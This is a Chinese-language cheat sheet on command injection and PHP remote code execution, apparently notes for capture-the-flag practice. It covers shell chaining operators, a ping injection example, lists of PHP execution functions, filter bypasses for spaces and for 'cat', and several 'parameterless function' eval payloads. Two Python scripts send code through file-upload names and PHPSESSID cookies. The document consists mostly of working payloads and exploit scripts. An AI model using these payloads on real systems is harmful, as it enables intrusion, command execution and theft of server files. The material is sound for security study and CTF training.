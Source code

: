 ## 基本介绍
* A&B:　顺序执行多条命令，而不管命令是否执行成功

* A&&B: 顺序执行多条命令，当碰到执行出错的命令后将不执行后面的命令

* A|B: 管道命令，如：dir *.* /s/a | find /c \".exe\" 表示：先执行 dir 命令，对其输出的结果执行后面的 find 命令

* A||B: 顺序执行多条命令，当碰到执行正确的命令后将不执行后面的命令


```php
$cmd = shell_exec( 'ping  -c 4 ' . $target );
// $target = 127.0.0.1 && calc
```

```php
if(!preg_match("/flag|system|php/i", $c)){
    eval($c);
}
/*
system()
passthru()
exec()
shell_exec()
popen()
proc_open()
pcntl_exec()
反引号 同shell_exec()
*/
```

```php
空格绕过
1 ${IFS}
2 $IFS$9
3 {cat,flag.php} //用逗号实现了空格功能
4 %20
5 %09
```

```php
cat绕过
more:一页一页的显示档案内容
less:与 more 类似
head:查看头几行
tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
tail:查看尾几行
nl：显示的时候，顺便输出行号
od:以二进制的方式读取档案内容
vi:一种编辑器，这个也可以查看
vim:一种编辑器，这个也可以查看
sort:可以查看
uniq:可以查看
file -f:报错出具体内容
```

### PHP Parametric Function RCE

引用：https://skysec.top/2019/03/29/PHP-Parametric-Function-RCE/#%E4%BB%80%E4%B9%88%E6%98%AF%E6%97%A0%E5%8F%82%E6%95%B0%E5%87%BD%E6%95%B0RCE

https://www.cnblogs.com/BOHB-yunying/p/11616311.html

如果上传代码有如下约束
<pre><code class="php">
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {
    eval($_GET['code']);
}
</code></pre>

只能执行a(b(c()))这样的代码，函数不能传参，如a(b('dd'))

*payload1*: array_rand(_flip(getenv())); 此方法随机获取数组值，具有一定随机性

*payload2*：eval(end(getallheaders()));  在request的header最后增加一个键值对，code: system('ls');

getallheaders()其实具有局限性，因为他是apache的函数，如果目标中间件不为apache，那么这种方法就会失效

*payload3*: eval(end(current(get_defined_vars())));&var=system('ls');但一般网站喜欢对
$_GET
$_POST
$_COOKIE
做全局过滤，所以我们可以尝试从$_FILES下手，这就需要我们自己写一个上传
<pre><code class="python">
import requests
from io import BytesIO

payload = "system('ls /tmp');".encode('hex')
files = {
  payload: BytesIO('sky cool!')
}
r = requests.post('http://localhost/skyskysky.php?code=eval(hex2bin(array_rand(end(get_defined_vars()))));', files=files, allow_redirects=False)
print r.content
</code></pre>

*payload4*: 可以获取PHPSESSID的值，而我们知道PHPSESSID允许字母和数字出现，那么我们就有了新的思路，即hex2bin
脚本如下

<pre><code class="python">
import requests
url = 'http://localhost/?code=eval(hex2bin(session_id(session_start())));'
payload = "echo 'sky cool';".encode('hex')
cookies = {
	'PHPSESSID':payload
}
r = requests.get(url=url,cookies=cookies)
print r.content
</code></pre>

即可达成RCE和bypass的目的

*payload5*：有的时候不能RCE,但是可以试试读请
readfile(end(scandir(chr(time(chdir(next(scandir(chr(time())))))))));

构造最终payload:
<pre><code class="php">
echo(readfile(end(scandir(chr(pos(localtime(time(chdir(next(scandir(pos(localeconv()))))))))))));
echo(readfile(end(scandir(chr(time(chdir(next(scandir(chr(time()))))))))));
</code></pre>
